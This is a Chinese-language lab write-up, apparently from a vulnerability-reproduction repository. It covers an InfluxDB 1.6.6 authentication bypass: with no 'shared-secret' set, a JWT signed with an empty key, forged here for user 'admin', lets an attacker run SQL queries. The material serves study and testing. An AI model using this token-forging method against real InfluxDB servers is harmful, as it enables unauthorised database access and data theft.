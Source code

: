 # influxdb未授权访问漏洞

## 漏洞描述

influxdb是一款著名的时序数据库，其使用jwt作为鉴权方式。在用户开启了认证，但未设置参数`shared-secret`的情况下，jwt的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在influxdb中执行SQL语句。

JWT，全称是JSON Web Token，是一种易于使用、无状态的鉴权方式。简单来说，就是Server端把JSON数据经过加密做成token，以授权给Client端。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 环境搭建

执行如下命令启动influxdb 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![image-20220224131904529](./images/202202241319614.png)

## 漏洞复现

借助https://jwt.io/来生成jwt token：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1745680213
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳，`secret`置空。

最终生成的token：

![image-20220224132837081](./images/202202241328222.png)

发送带有这个jwt token的数据包，注意Content-Type设置为`application/x-www-form-urlencoded`。

可见SQL语句执行成功：

![image-20220224133310332](./images/202202241333480.png)

